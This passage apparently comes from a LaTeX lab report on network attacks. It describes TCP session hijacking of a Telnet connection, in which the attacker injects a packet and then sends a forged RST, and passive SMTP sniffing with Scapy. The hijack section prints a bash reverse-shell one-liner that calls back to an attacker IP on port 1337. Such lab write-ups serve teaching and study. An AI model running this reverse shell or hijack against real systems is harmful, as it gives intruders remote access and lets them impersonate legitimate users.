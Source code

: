 \subsubsection{Active Attack}

After both roles in the communication are determined the system waits for an
"appropriate" time to inject a nefarious packet in the communication.
(\underline{Note:} The need for this "appropriate" time is debatable, the main 
idea behind it was to find a small time window where no immediate packets 
are exchanged and inject the packet there. 
This way there's a better chance for the attacker to "guess" the correct Seq. 
and ACK numbers being used.
Since the attacker is placed already in-between both parties this sort of 
timing procedure is unnecessary.)
This nefarious packet launches a reverse shell targeting the server and 
returning a valid shell connection back to the attacker's 1337 port using:
\begin{verbatim}
/bin/bash -i >& /dev/tcp/192.168.109.138/1337 0>&1
\end{verbatim}
The attacker, waiting for this reverse shell using netcat, then gains shell
access to the server, impersonating the legitimate client.
Finally, a forged RST TCP packet is sent to the server closing the previous 
Telnet client-server communication, effectively shutting down the user's 
connection.
\subsection{SMTP Passive Attack}

Using the built-in Scapy's \textit{sniff} function, the attacker starts by sniffing the on-play interface filtering packets by the TCP port (port \textbf{25} in the context) and checking for specific keywords in the packet's payload (sent from a client to the SMPT server), such as MAIL FROM/RCPT TO/DATA. That information is parsed and then outputted to the stdout. This passive attack ends checking if the server replies with the indication that the previous email was successfully queued. 

